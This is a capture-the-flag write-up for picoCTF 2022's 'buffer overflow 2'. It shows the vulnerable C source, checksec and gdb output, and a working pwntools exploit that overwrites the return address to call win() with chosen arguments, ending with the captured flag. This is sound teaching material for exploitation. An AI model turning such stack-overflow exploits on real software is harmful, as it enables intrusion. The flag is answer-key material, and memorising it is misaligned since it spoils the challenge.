

# buffer overflow 2 - picoCTF 2022 - CMU Cybersecurity Competition
Binary Exploitation, 300 Points

## Description


 
## buffer overflow 2 Solution

Let's observe the attached file [vuln.c](./vuln.c):
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 100
#define FLAGSIZE 64

void win(unsigned int arg1, unsigned int arg2) {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  if (arg1 != 0xCAFEF00D)
    return;
  if (arg2 != 0xF00DF00D)
    return;
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```

Let's run ```checksec``` on the attached file [vuln](./vuln):
```console
┌─[evyatar@parrot]─[/pictoctf2022/binary_exploitation/bof_2]
└──╼ $ checksec vuln
[*] '/pictoctf2022/binary_exploitation/bof_2/vuln'
Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)

```

We can see no [PIE](https://ir0nstone.gitbook.io/notes/types/stack/pie) enable.

We need to overwrite the retur address on ```vuln``` function to ```win``` function, But as we can see, now we need to pass two arguments to ```win``` function, the first argument is ```0xCAFEF00D``` and the second is ```0xF00DF00D```.

Let's find the offset between ```buf``` to ```EIP``` using ```gdb```:
```asm
┌─[evyatar@parrot]─[/pictoctf2022/binary_exploitation/bof_2]
└──╼ $ gdb vuln
gef➤  r
Starting program: /pictoctf2022/binary_exploitation/bof_2/vuln 
Please enter your string: 
AAAAAAAA

...
gef➤  search-pattern AAAAAAAA
[+] Searching 'AAAAAAAA' in memory
[+] In '[heap]'(0x804d000-0x806f000), permission=rw-
  0x804d1a0 - 0x804d1aa  →   "AAAAAAAA\n" 
[+] In '[stack]'(0xfffdd000-0xffffe000), permission=rw-
  0xffffd00c - 0xffffd014  →   "AAAAAAAA" 
gef➤  i f
Stack level 0, frame at 0xffffd080:
 eip = 0x804935a in vuln; saved eip = 0x80493dd
 called by frame at 0xffffd0b0
 Arglist at 0xffffcfec, args: 
 Locals at 0xffffcfec, Previous frame's sp is 0xffffd080
 Saved registers:
  ebx at 0xffffd074, ebp at 0xffffd078, eip at 0xffffd07c

```

The buffer locates on ```0xffffd00c``` and ```EIP``` locates on ```0xffffd07c```, The offset is 112 bytes.

Meaning that we need to insert 112 bytes (including the arguments) and then the address of ```win``` function:
```
...|         buf[100]         |    12bytes   |    EIP   | ... arguments ...
````

According to the stack frame ([Reference](https://zhu45.org/posts/2017/Jul/30/understanding-how-function-call-works/)):



Our payload shoule be ```100bytes (buffer) + 12 bytes + EIP (address of win function) + 4 Bytes (EBP+4 which is return address) + arg1 + arg2```

Let's solve it using [pwntools](https://docs.pwntools.com/en/stable/intro.html):
```python
from pwn import *

elf = ELF('./vuln')
libc = elf.libc

if args.REMOTE:
    p = remote('saturn.picoctf.net',50104)
else:
    p = process(elf.path)

# payload buffer
payload = b'A'*112
payload += p32(0x8049296) #Address of win function
payload += p32(0x8049372) # address of main function which is the return address from win.
payload += p32(0xCAFEF00D)+p32(0xF00DF00D) # arg1, arg2

print(p.recvuntil(':'))
p.send(payload)
p.interactive()
```

Run it:
```console
┌─[evyatar@parrot]─[/pictoctf2022/binary_exploitation/bof_2]
└──╼ $ python3 exp.py REMOTE
[*] '/pictoctf2022/binary_exploitation/bof_2/vuln'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[*] '/usr/lib32/libc-2.31.so'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to saturn.picoctf.net on port 50104: Done
b'Please enter your string:'
[*] Switching to interactive mode
 
$ 
\xf0\xfe\xcaAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x96\x92\x04r\x93\x04
$ 
picoCTF{argum3nt5_4_d4yZ_2a8ec317}
Please enter your string: 

```

And we get the flag ```picoCTF{argum3nt5_4_d4yZ_2a8ec317}```.